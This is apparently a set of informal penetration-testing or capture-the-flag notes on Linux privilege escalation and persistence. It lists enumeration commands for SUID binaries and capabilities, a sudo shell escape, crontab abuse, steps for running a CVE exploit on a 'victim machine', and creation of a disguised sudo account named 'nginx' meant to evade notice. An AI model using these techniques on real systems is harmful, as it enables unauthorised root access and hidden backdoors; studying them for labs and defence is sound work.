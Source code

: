 If you find cve, get the exp file, make a tmp server on /tmp, host the file, get the file on the victim machine, compile and run.

ggs, you alr a root user. xD


---

## sudo -l

whenever we can get into an interactive shell simply do !sh we got into a root shell.

---

## Linux Capabilities

```bash
getcap -r / 2>/dev/null
```

GFTObins

---

## crontab

check if u have permissions to edit a crontabbed script that's run by root, if yes then just edit it and wait for it to trigger.

---

## SUID

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

GFTObins

---

# Persistence

many ways.

---

## User creation

```bash
useradd --shell /bin/bash --home /var/www nginx
sudo usermod -aG sudo nginx
```

use some known user, like nginx for example, it's not sus, so ppl would think it is normal and leave it.

---

## Crontabs

Crontab some scipts with root.

---
